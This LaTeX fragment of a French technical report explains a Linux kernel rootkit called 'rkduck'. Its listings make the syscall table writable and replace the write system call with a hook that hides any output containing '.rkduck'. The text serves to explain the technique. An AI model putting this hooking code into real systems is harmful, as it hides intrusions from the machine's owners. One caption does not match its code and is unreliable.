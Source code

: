 \documentclass[12pt]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}
int set_page_rw(ptr_t address) {
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);

    if (pte->pte &~ _PAGE_RW) {
        pte->pte |= _PAGE_RW;
    }

    return 0;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:2}
\end{listing}

		Il ne reste plus qu'à remplacer l'appel système. Dans les Listings~\ref{listing:3} et~\ref{listing:4}, l'appel système détourné est \texttt{write}. La nouvelle fonction \texttt{write} va regarder si le buffer à afficher contient la chaîne de caractères ".rkduck". Si c'est le cas, la fonction ne renvoie rien, sinon, on fait appel à l'originale en lui passant les mêmes arguments qu'à notre fonction détournée.
		
\begin{listing}[H]
\begin{verbatim}
asmlinkage ssize_t duck_write(int fd, const char __user *buff, 
                              ssize_t count) {
    int r = 0;
    char *proc_protect = ".rkduck";
    char *kbuff = (char *) kmalloc(256, GFP_KERNEL);
    
    if (!copy_from_user(kbuff, buff, 255)) {
        if (strstr(kbuff, proc_protect)) {
            kfree(kbuff);
            return EEXIST;
        }

        r = (*original_write)(fd, buff, count);
        kfree(kbuff);
    }
        
    return r;
}
\end{verbatim}
\caption{Appel système \texttt{write} modifié}
\label{listing:3}
\end{listing}

\begin{listing}[H]
\begin{verbatim}
int duck_init(void) {
    /* [...] */    
    set_page_rw((ptr_t) sys_call_table);
    original_write = xchg(&sys_call_table[__NR_write], duck_write);
    set_page_ro((ptr_t) sys_call_table);
	/* [...] */
    return 0;
}
\end{verbatim}
\caption{Détournement de l'appel système \texttt{write}}
\label{listing:4}
\end{listing}
\end{document}
